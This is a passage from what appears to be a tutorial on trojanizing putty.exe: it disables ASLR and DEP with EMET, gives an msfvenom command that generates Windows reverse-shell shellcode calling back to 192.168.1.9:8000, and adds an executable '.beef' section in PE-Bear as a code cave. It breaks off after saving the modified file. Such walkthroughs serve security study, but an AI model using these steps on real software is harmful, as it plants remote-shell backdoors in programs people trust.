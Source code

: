 To disable **ASLR** and **DEP** we will use [EMET](https://www.microsoft.com/en-us/download/details.aspx?id=50766) the enhanced mitigation experience toolkit.

![00-emet](/img/02/00-emet.png)

And then restart your machine.

### Starting

Now let's get going.

First we will generate our shellcode to inject it in the executable code cave that we will create it later.

Generate the shellcode with **msfvenom** by executing:

```bash
msfvenom --arch x86 --platform windows --payload windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=8000 -f hex
```

The output should be something similar to this:

![01-kali](/img/02/01-kali.png)

Make sure that you take a note to use it later.

> 1 Creating PE section header

Download and run **putty.exe** to make sure that it's work proberly.


![02-putty.png](/img/02/02-putty.png)

Alright now we will create our new section header inside our PE executable file by using **PE-Bear** tool and going to **Section Hdrs** tab to see the PE sections.

![03-sections](/img/02/03-sections.png)

In order to create a new sction we will right click on **Sections** and select **Add section**.

![04-addsection](/img/02/04-addsection.png)

Now write any section name you want, in my case i will call it **.beef**, then give a _1000_ byte size **(****_which is 4096 bytes but in hex_****)** to **Raw size** and **Virtual Size** and mark on **read**, **write**, **execute** like this:

![05-.beef](/img/02/05-.beef.png)

Our new section has been created and now save the new modified executable.

![06-saveexecutable](/img/02/06-saveexecutable.png)

and save it with a different name.

![07-puttybeef](/img/02/07-puttybeef.png)
